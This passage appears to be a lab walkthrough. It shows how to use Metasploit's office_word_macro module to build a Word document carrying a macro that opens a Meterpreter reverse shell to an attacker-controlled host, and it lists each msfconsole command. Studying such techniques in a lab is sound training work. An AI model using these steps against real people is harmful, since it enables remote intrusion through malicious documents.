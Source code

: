 You will use theÂ MetasploitÂ Framework to create the document with the malicious macro. This requires the following commands:

- Open a new terminal window and runÂ `msfconsole`Â to start theÂ MetasploitÂ Framework
- `set payload windows/meterpreter/reverse_tcp`Â specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell  
- `use exploit/multi/fileformat/office_word_macro`Â specifies the exploit you want to use. Technically speaking, this is not an exploit; it is a module to create a document with a macro
- `set LHOST CONNECTION_IP`Â specifies the IP address of the attackerâ€™s system,Â `CONNECTION_IP`Â in this case is the IP of the AttackBox
- `set LPORT 8888`Â specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options`Â shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit`Â generates a macro and embeds it in a document
- `exit`Â to quit and return to the terminal



![Pasted image 20241210205337.png](../../IMAGES/Pasted%20image%2020241210205337.png)

Nice, now we have our malicious macro file. 

## The Created Macro-Enabled Document

We mentioned earlier how to create a macro within an MS Word document. You might be interested to see the content of the file created byÂ `msfconsole`. In the screenshot below, we can see the different procedures and functions that make up this macro.Â **Note:**Â The AttackBox doesnâ€™t have MS Office installed, so for this section you only have to read along.  
